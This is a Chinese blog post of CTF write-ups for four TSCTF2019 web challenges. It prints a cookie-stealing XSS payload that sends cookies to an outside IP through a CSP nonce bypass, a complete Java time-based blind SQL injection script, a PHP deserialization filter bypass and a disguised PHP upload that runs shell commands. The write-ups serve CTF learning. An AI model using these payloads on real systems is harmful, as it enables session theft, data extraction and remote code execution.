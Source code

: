 ```yaml
---
layout: post
title: TSCTF线上赛Web WriteUp
tags: CTF WriteUp
typora-copy-images-to: ../assets/img
typora-root-url: ..

---
```


这次TSCTF2019 线上赛做了4道Web，学到了很多知识，整理一下。

### Weird CSP 

简单的分析：注册，登录，每一个用户有两个界面。一个个人界面，这个界面可以被任何人看见，编辑处存在xss，一个提交Bug的界面，管理员会定期浏览这个页面。

所以思路是比较明确的：在个人编辑页面构造xss，在bug提交处提交给管理员来打管理员cookie，现在的问题就是如何绕过CSP

CSP的创建：通过`<script src="csp.php?nonce=$random_nonce"></script>`获取创建指定$random_nonce的js脚本。

当时的思路：1. 通过提升我们的script的渲染顺序来达到我们的js优先渲染的目的从而绕过nonce

虽然chrome加载脚本的时候是并行的，但是在渲染的时候会阻塞，试了一波prefetch等都不行，所以这个思路作罢。

查阅资料发现：

![1557678876910](/assets/img/1557678876910.png)

这里就想到，新建一个iframe,指定nonce规则，然后指向另一个用户的页面，然后我们在另一个页面写好script脚本，这里由于这个我们指定的nonce规则会限制原来加载nonce规则的js的渲染，所以就可以绕过这个nonce。并且这里由于是同源的，没有跨域的问题，可以带出cookie。

iframe引用的页面：

```html
<script>console.log('Welcome to TSCTF交友平台');</script>
<!--题目加载nonce规则-->
<script src="csp.php?nonce=7ccfe52ecc5629f84708d8db47390d72"></script>
<textarea rows="10" cols="50" name="profile">
</textarea>
<!-- 根据我们自定义的nonce规则-->
<script nonce="90cf95dcf73b46cfd5f09c0097a87609">window.location.href='http://39.105.29.134:8082/?cookie='+document.cookie</script>
</textarea>
```

攻击页面：

```html
<script>console.log('Welcome to TSCTF交友平台');</script>
<script src="csp.php?nonce=c77db29e326d03e567b4946c81e8b8b1"></script>
Update Profile:
<form action="update.php" method="POST">
    <textarea rows="10" cols="50" name="profile"></textarea>
    <!--自己的nonce规则-->
    <iframe csp="script-src 'nonce-90cf95dcf73b46cfd5f09c0097a87609'" src="/profile.php?id=18b368926ffa893e7dff2b3d97f6e794"></iframe></textarea>
    <br/>
    <input type="submit" value="submit">
</form>
```

我们在本地服务器启动监听，将攻击页的网址发给管理员，坐等收cookie，其中便含有flag。

`flag:TSCTF{Chr0m3_Xss_Aud1t0r_1s_Fun}`(PS:这里泽神的预期解还没研究，看flag是跟Auditor有关)

### Ozone

1. 收集信息：扫一波敏感目录，发现有admin目录。根据hint和题目，查找2018QQ空间钓鱼，<https://pan.baidu.com/s/1B-Ye6OhwZ6W0EcJq-_msXw>找到源码，对比一下题目应该就是根据这个改的

2. 得到源码后开始审计：

   这里发现有360的waf，主要针对不同点的sql注入进行了过滤。login处过滤比较严格，且有360的保护，虽然是拼接字符串，但是比较难以注入。接着发现有弱类型比较，但是这里传入的都是字符串，无法利用。

3. 在memeber.php里发现

```php
//member.php
if(isset($_COOKIE["islogin"])){
	if($_COOKIE["admin_user"]){
		$admin_user=base64_decode($_COOKIE['admin_user']);
		$udata = $DB->get_row("SELECT * FROM fish_admin WHERE username='$admin_user' limit 1");
		if($udata['username']==''){
		//失败逻辑
		}
		$admin_pass=sha1($udata['password'].LOGIN_KEY);
		if($admin_pass==$_COOKIE["admin_pass"]){
			$islogin=1;
		}else{
			//失败逻辑
		}
	}
}
```

这里主要是使用cookie来达到记住用户功能，但是这里的查询语句由于直接拼接了base64解码的cookie里的值造成sql注入，而且这里由于是base64编码的，已经绕过了所有的waf。由于页面没有回显或报错，考虑基于时间的盲注，编写java脚本

```java
import okhttp3.OkHttpClient;
import okhttp3.Request;
import org.apache.commons.codec.binary.Base64;
import java.io.IOException;
import java.util.concurrent.TimeUnit;

public class tsctf {
    public static void main(String[] args) throws InterruptedException {
        String cookie="islogin=1;PHPSESSID=s16gcbb745p526jcm0uttq4nq;admin_user=%s;admin_pass=12";
        String url="http://10.104.252.147/admin/index.php";
        String payload;
//"tsctf' or if((ascii(substr((SELECT username  FROM fish_admin LIMIT 1 ),%d,1))=%d),sleep(5),0)#"
        String rawPayload="tsctf' or if((ascii(substr((SELECT password  FROM fish_admin LIMIT 1 ),%d,1))=%d),sleep(5),0)#";
        Base64 base64Encoder=new Base64();
        OkHttpClient httpClient=new OkHttpClient.Builder()
                .readTimeout(3,TimeUnit.SECONDS).build();
        Request.Builder requestBuilder=new Request.Builder()
                .get()
                .url(url);
        for (int i=0;i<33;i++){
            for(int j=32;j<128;j++){
                //System.out.println((String.format(rawPayload,i,j)));
                payload=base64Encoder.encodeAsString((String.format(rawPayload,i,j).getBytes()));
                Request request=requestBuilder.header("Cookie",String.format(cookie,payload)).build();
                try {
                    httpClient.newCall(request).execute();
                } catch (IOException e) {
                    System.out.printf("%s",(char)j);
                    TimeUnit.SECONDS.sleep(2);
                    break;
                }
            }
        }
    }
}
```

跑完就可以得到数据库中存储的md5的password，得到之后尝试在各个平台解码，发现失败。于是考虑LOGIN_KEY(在common.php中)说不定没有变。使用`sha1('跑出来的值'.LOGIN_KEY);`填到cookie中,直接访问后台便可以获得flag。

### Object？

php反序列化

关键过滤：

```php
$format = '/O:\d:/';
$flag = $flag && substr($data, 0, 2) !== 'O:'; 
$flag = $flag && (!preg_match($format, $data));
```

第一个可以用Array过掉，第二个使用`/O:+\d:/`来代替`/O:\d:/`绕过。flag在根目录下

```php
class BlogLog
{
    public $log_ = '/flag';
}
$blog=new BlogLog();
$arr=array($blog);
echo $payload=serialize($arr);
//添上+号,这里由于+是url保留，需要经过url编码
echo urlencode($apyload);
//a%3A1%3A%7Bi%3A0%3BO%3A%2B7%3A%22BlogLog%22%3A1%3A%7Bs%3A4%3A%22log_%22%3Bs%3A5%3A%22%2Fflag%22%3B%7D%7D
```

访问/game.php?data=a%3A1%3A%7Bi%3A0%3BO%3A%2B7%3A%22BlogLog%22%3A1%3A%7Bs%3A4%3A%22log_%22%3Bs%3A5%3A%22%2Fflag%22%3B%7D%7D得到flag

### JustUpload

上传界面，一波fuzz后有几个限制：只能上传图片，有大小限制，长度不能大于15，上传成功后给出存储地址。并且提示Upload a php。

上传图片的限制：题目限制了文件名后缀不能是php,限制了content-type,以及通过文件头文件尾标志来识别图片，jpg的标志：`0xffd8`，结尾为`0xffd9`。

绕过：我们直接伪造jpg头尾，content-type，文件名后缀设置为php3来绕过过滤，但是拼接的php的长度就非常的短，猜测服务端应该开启了php的短标签，参考

<https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html>

我们使用这样的语句来执行命令：<?= \`ls\`;但是由于非常严格的字数限制，一直没找到好的方法，在尝试的过程中ls /了一波竟然输出了flag，本来想尝试一波`hitcon2017 babyfirst-revenge v2`的做法，不过看这题的flag，设计的原意就是不用拿到shell的吧hhh。